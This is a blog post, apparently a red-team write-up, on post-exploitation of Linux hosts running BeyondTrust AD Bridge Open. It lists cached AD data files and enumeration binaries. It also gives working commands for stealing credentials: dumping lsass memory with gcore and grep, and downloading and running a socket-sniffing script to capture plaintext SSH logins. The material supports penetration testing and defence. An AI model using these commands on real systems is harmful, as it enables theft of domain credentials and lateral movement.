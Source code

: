 ```yaml
---
title: "BeyondTrust AD Bridge Open Post-Exploitation"
layout: "post"
---
```


[AD Bridge Open](https://github.com/BeyondTrust/pbis-open) is an open-source community project sponsored by BeyondTrust Corporation.

It is essentially a wrapper application that will facilitate the integration of \*nix hosts with Microsoft Active Directory (sets up Kerberos and LDAP Auth).

This post describes a few post-exploitation tips, were ROOT access was obtained on a Linux host that is using BeyondTrust AD Bridge Open.

Also the post content is based on the last open source version that is available on GitHub (AD Bridge Open 9.1.0.551).

The project was discontinued and moved to an enterprise closed source model in 2021.



## Builtin binaries and files for situational awareness

AD Bridge Open installs and uses several binaries that are very useful for enumerating an Active Directory environment, if the Linux box was streamlined and does not have any LDAP or SMB clients installed (those are typically present on Linux distributions).

The software keeps a cache file of domain users and associated Active Directory information in this file `/var/lib/pbis/db/lsass-adcache.filedb.DOMAIN.LOCAL`.

So without making any request to the Domain Controllers it is possible access a trove of useful information about the AD environment.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-1.png">
</p>



Another interesting file is `/var/lib/pbis/db/lwi_events.db`. If the Active Directory has been hardened and the Machine Account Quota is set to zero for all regular domain accounts, by reading this file one can get the domain account that was used to join the Linux machine to the domain - again without making a single request to the Domain Controllers.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-2.png">
</p>



As for useful LOLBIN's for enumeration and situational awareness, they all reside on the directory `/opt/pbis/bin/`

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-3.png">
</p>


These are pretty much self explanatory:

 - `/opt/pbis/bin/enum-groups`
 - `/opt/pbis/bin/enum-members`
 - `/opt/pbis/bin/enum-objects`
 - `/opt/pbis/bin/enum-users`
 - `/opt/pbis/bin/list-groups-for-user`
 - `/opt/pbis/bin/find-by-sid`
 - `/opt/pbis/bin/find-group-by-id`
 - `/opt/pbis/bin/find-group-by-name`
 - `/opt/pbis/bin/find-objects`
 - `/opt/pbis/bin/find-user-by-id`
 - `/opt/pbis/bin/find-user-by-name`
 - `/opt/pbis/bin/ldapsearch`


`/opt/pbis/bin/get-dc-list DOMAIN.LOCAL` will output the names and IPs of all Domain Controllers.


`/opt/pbis/bin/adtool` can query and modify objects in Active Directory - eg: add user or computer accounts.


`/opt/pbis/bin/get-dc-list/update-dns` Registers IP addresses and corresponding PTR records in DNS via a secure dynamic DNS update that could be handy for ADIDNS Zone poisoning.


`/opt/pbis/bin/lwio-copy` is a SMB client that can be used to transfer files.



You can find more details about the binaries function, command flags and whatnot on the [official documentation](https://www.beyondtrust.com/docs/ad-bridge/getting-started/linux-admin/index.htm).




# Domain credentials for lateral movement and privilege escalation

As with any pentesting or red teaming engagement I want to obtain Domain credentials to move laterally and/or escalate privileges.

In order to get some plain text credentials the LSASS process can be targeted Mimikatz style, minus the memory structures parsing complexities of LSASS on Windows.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-4.png">
</p>


SSH is integrated with Active Directory using AD Bridge Open, so I can dump the process memory, run strings and grep for SSH authentications or passwords.


GDB can be attached using one of the AD Bridge Open binaries:
```bash
/opt/pbis/bin/lwsm gdb lsass
```

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-5.png">
</p>


Or I can just run:
```bash
gcore `ps aux | grep '[l]sass' | awk '{print $2}'` && strings core.* | grep -C 8 -Hnia --color=auto "ssh"
```

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-6.png">
</p>


The only issue with this method is that it is a bit hit-and-miss with the grep "offsets". Sometimes I get the user credential within the offsets, other times I get nothing and the credential is somewhere inside the ~1Gb memory dump file.


So I decided to look again at the files being used by AD Bridge Open, and found several of Unix Sockets on the directory `/var/lib/pbis/`

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-7.png">
</p>


`.lsassd` appeared interesting, so I decided to sniff its traffic.

I'll need to install wireshark/tcpdump and socat and then run a small bash script to accomplish this.

Since I have to wait for a SSH connection, I'm going to run everything from a Tmux session. That way I can detach it and leave it running.

```bash
yum -y install wireshark socat tmux
tmux
wget https://gist.githubusercontent.com/ricardojba/05d8ca06717292798054ca968082b70a/raw/5eea101b9054b19aa21714b2cbcbc5bc2173cdf4/unixsock-sniff.sh -O unixsock-sniff.sh
chmod 755 unixsock-sniff.sh
./unixsock-sniff.sh -u /var/lib/pbis/.lsassd
```

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-8.png">
</p>

If the Linux box is very often accessed by users or there is some automated scanning software that performs authenticated scans against the box (eg: Nessus), I should get the SSH logins and capture the plain text credentials.

```bash
tshark -x -r /tmp/unix_socket_dump.pcap | grep -C 8 sshd
```


Pretty sure that there's a lot that I didn't covered or missed, but this will help get us started in a pentest or red team of \*nix hosts with BeyondTrust AD Bridge Open installed.

